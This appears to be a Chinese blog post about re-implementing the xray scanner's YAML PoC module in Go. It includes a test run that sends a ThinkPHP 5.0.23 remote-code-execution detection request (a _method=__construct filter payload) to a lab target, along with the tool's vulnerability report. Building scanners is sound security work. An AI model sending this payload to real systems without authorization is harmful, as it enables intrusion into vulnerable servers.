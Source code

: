 ```yaml
---
layout: post
title: xray poc模块功能复现
description: ""
keywords: ""
---
```


长亭科技出品的[xray](https://github.com/chaitin/xray)真心👍，🐂🍺!!!!!!

正好学了Golang，复现了下xray的poc功能模块，其中提到的Google的cel-go表达式没有摸懂，使用笨拙的方法来匹配。

代码地址：[https://github.com/SewellDinG/xray_poc_demo](https://github.com/SewellDinG/xray_poc_demo)

## Tasklist

- [x] 解析YAML
- [x] HTTP发包
- [x] 表达式预处理
- [x] 模式匹配
- [x] 常用函数
- [x] goroutine​并发
- [x] flag传参​
- [ ] 批量获取目标
- [ ] 302跳转
- [ ] 自定义变量set
- [ ] reverse反连平台

## Test

漏洞环境：[thinkphp/5.0.23-rce](https://vulhub.org/#/environments/thinkphp/5.0.23-rce/)

POC：[thinkphp5023-method-rce.yml](https://github.com/chaitin/xray/blob/master/pocs/thinkphp5023-method-rce.yml)

```
[Sewell]: ~/Documents/xray_poc_demo ✗ master*
➜  ./xray_poc_demo --poc thinkphp5023-method-rce.yml --url http://34.xxx.69.xxx:8080
------------------ 1 ------------------
* rule:{Method:POST Path:/index.php?s=captcha Headers:{Cookie: ContentType:application/x-www-form-urlencoded} Body:_method=__construct&filter[]=printf&method=GET&server[REQUEST_METHOD]=TmlnaHQgZ2F0aGVycywgYW5%25%25kIG5vdyBteSB3YXRjaCBiZWdpbnMu&get[]=1
 Search: FollowRedirects:false Expression:response.body.bcontains(b'TmlnaHQgZ2F0aGVycywgYW5%kIG5vdyBteSB3YXRjaCBiZWdpbnMu1')
}
* resp: 200 map[Content-Type:[text/html; charset=UTF-8] Date:[Fri, 13 Dec 2019 05:58:16 GMT] Server:[Apache/2.4.25 (Debian)] Vary:[Accept-Encoding] X-Powered-By:[PHP/7.2.12]]
* expr: &{Body:bcontains(b'TmlnaHQgZ2F0aGVycywgYW5%kIG5vdyBteSB3YXRjaCBiZWdpbnMu1') ContentType: Status:}
* Vuln: poc-yaml-thinkphp5023-method-rce
* Target: http://34.xxx.69.xxx:8080
```

